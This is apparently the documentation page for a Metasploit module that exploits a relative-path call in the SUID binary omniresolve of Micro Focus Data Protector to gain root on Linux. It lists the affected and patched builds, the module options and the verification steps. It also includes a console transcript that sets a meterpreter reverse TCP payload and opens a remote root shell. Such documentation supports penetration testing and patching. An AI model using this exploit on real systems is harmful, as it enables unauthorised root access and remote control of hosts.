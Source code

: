 ## Description

  This module exploits the trusted `$PATH` environment
  variable of the SUID binary `omniresolve` in
  Micro Focus (HPE) Data Protector A.10.40 and prior.

  The `omniresolve` executable calls the `oracleasm` binary using
  a relative path and the trusted `$PATH`, which allows an attacker
  to execute a custom binary with `root` privileges.


## Vulnerable Application

  This module has been successfully tested on:

  * HPE Data Protector A.09.07: OMNIRESOLVE, internal build 110
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 118 on CentOS Linux release 7.6.1810 (Core)

  The vulnerability has been patched in:
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 125


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/omniresolve_suid_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SUID_PATH**

  Path to `omniresolve` executable (default: `/opt/omni/lbin/omniresolve`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenario

### DP 10.40 build 118 on CentOS Linux release 7.6.1810 (Core)

  ```
  msf5 > use exploit/linux/local/omniresolve_suid_priv_esc
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > check
  [+] The target is vulnerable.
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/komniresolve_suid_priv_esc) > set lhost 192.168.0.113
  lhost => 192.168.0.113
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > run
  
  [*] Started reverse TCP handler on 192.168.0.113:4444 
  [*] Sending stage (3021284 bytes) to 192.168.0.107
  [*] Meterpreter session 2 opened (192.168.0.113:4444 -> 192.168.0.107:54510) at 2019-10-01 13:19:45 -0400
  [+] Deleted /tmp/oracleasm
  [+] Deleted /tmp/gprjmiMGOr
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 192.168.0.107
  OS           : CentOS 7.6.1810 (Linux 3.10.0-957.21.2.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```
